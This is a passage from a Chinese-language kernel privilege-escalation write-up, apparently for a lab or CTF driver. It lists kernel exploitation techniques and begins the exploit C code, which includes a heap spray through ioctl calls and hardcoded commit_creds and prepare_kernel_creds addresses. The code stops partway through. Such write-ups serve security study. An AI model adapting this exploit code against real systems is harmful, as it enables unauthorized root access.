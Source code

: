 整个提权利用，就完成了。

![Alt text](http://drops.javaweb.org/uploads/images/72769fec8385214acaa1747e48f761612a65671a.jpg)

0x08 exp
========

有很多的内核漏洞文章，讲了很多的内核漏洞利用技术：

修改ptmx->fop，修改addr_limit，修改task结构，修改中断描述符，将SMEP位反位等等，都博大精深。学习的路还很长很长。下面是这次提权的代码：

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <limits.h>
#include <inttypes.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/sem.h>
#include <sys/shm.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define oversize 0x400
struct mem_init {
    unsigned int idx;
    unsigned int len;
};

int prepare_kernel_creds = 0xc1082e20;
int commit_creds = 0xc1082b60; 

int main(){
    int fd[3],ret,i;
    int shmid;
    int *map;
    void *buf,*readbuf;
    struct mem_init arg;
    fd[0] = open("/dev/memdev0",O_RDWR);
    fd[1] = open("/dev/memdev1",O_RDWR);
    fd[2] = open("/dev/memdev2",O_RDWR);
    for(i=0;i<3;i++)
        if(fd[i] < 0){
            printf("[-]open driver failed!\n");
            return 0;
        }
    printf("[+]open driver success\n");

    //prepare heap
    arg.idx = 0;
    arg.len = 92+0x40;
    for(i=0;i<1000;i++){
        ioctl(fd[0],0,&arg);
    }
    arg.idx = 1;
    ioctl(fd[1],0,&arg);
    arg.idx = 2;
    ioctl(fd[2],0,&arg);

    buf = malloc(oversize);
    readbuf = malloc(oversize);

```